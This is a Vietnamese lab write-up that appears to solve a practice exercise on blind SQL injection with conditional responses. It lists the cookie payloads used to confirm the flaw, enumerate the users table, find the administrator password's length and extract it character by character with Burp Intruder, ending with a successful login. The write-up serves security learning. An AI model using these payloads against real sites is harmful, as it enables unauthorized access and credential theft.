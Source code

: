 **Lab: Blind SQL injection with conditional responses**
1) Xác nhận tham số dễ bị Blind SQLi
   ```
    TrackingId=Yf6Tdf7oLD3eWgG7' AND '1'='1
    TrackingId=Yf6Tdf7oLD3eWgG7' AND '1'='2
   ```
   
<img width="1496" height="650" alt="image" src="https://github.com/user-attachments/assets/b2e552db-87eb-4842-822c-1dfa37da3f5f" />
> Điều kiện TRUE → xuất hiện "Welcome back"

<img width="1496" height="721" alt="image" src="https://github.com/user-attachments/assets/1e7f95de-0aa0-445b-9d21-a67738ec66bc" />
> Điều kiện FALSE  → không xuất hiện "Welcome back"

2) Xác nhận tồn tại bảng users
```
TrackingId=Yf6Tdf7oLD3eWgG7' AND (SELECT 'a' FROM users LIMIT 1)='a
```
<img width="1492" height="713" alt="image" src="https://github.com/user-attachments/assets/fc95ad7b-b85f-4cdf-b526-c13275d8cdf8" />
>  Bảng users tồn tại trong cơ sở dữ liệu.

3) Xác nhận tồn tại user _administrator_ trong bảng users
```
TrackingId=Yf6Tdf7oLD3eWgG7' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```
<img width="1506" height="703" alt="image" src="https://github.com/user-attachments/assets/920704bf-ad8b-479e-99a1-1e4216edffe0" />
> User _administrator_ có tồn tại 

4) Liệt kê (enumerate) mật khẩu của user administrator
```
TrackingId=Yf6Tdf7oLD3eWgG7' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
<img width="1493" height="565" alt="image" src="https://github.com/user-attachments/assets/d2b41d18-3ef9-4b8b-9f23-444973e7e2f8" />
> Điều kiện này phải đúng, xác nhận rằng mật khẩu có chiều dài lớn hơn 1 ký tự.
Lấn lượt tăng số sao cho đến khi không hiện Welcome back, sau khi thử nhieuf lần thì thấy tới 20 là không hiện Welcome back nữa => mật khẩu có 20 kí tự
<img width="1482" height="763" alt="image" src="https://github.com/user-attachments/assets/c3e34073-d82f-41b5-a07b-39bdda227739" />

5) Dò mật khẩu của administrator
```
TrackingId=Yf6Tdf7oLD3eWgG7' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```
Lấy mật khẩu của user 'administrator' trong bảng users, lấy từ ký tự thứ 1 của chuỗi password, số lượng ký tự = 1 và so sánh với kí tự 'a'
- Nếu kí tự đầu tiên của pw là 'a' thì điều kiện đúng
- Nếu khác 'a' thì điều kiện sai
<img width="1487" height="651" alt="image" src="https://github.com/user-attachments/assets/da6978a3-002e-483e-8908-5b9d9f5efcad" />
> Kí tự đầu tiên trong pw không phải là 'a'

Thêm vào Intruder để dò mật khẩu
<img width="1913" height="869" alt="image" src="https://github.com/user-attachments/assets/794c1884-a885-43f8-852e-2a1ebdd16541" />
<img width="637" height="505" alt="image" src="https://github.com/user-attachments/assets/8301dfc4-4982-4a22-a0c2-f2721ee9dccc" />
- Lọc để chọn ra những mật khẩu hiện "Welcome back"
<img width="1569" height="514" alt="image" src="https://github.com/user-attachments/assets/ada2899e-8b39-452c-baa5-92b610c0833f" />
- viết lại các kí tự lần lượt theo thứ tự từ 1 - 20 
<img width="1530" height="713" alt="image" src="https://github.com/user-attachments/assets/1cde8257-350f-4d67-a177-853476e86b00" />
>  Ta có mật khẩu là _oa7uk3lrbpf9xct78f9v_
<img width="1836" height="830" alt="image" src="https://github.com/user-attachments/assets/db5a7fe7-57a3-452b-b5cb-12c2bbda3afd" />
> Đăng nhập thành công
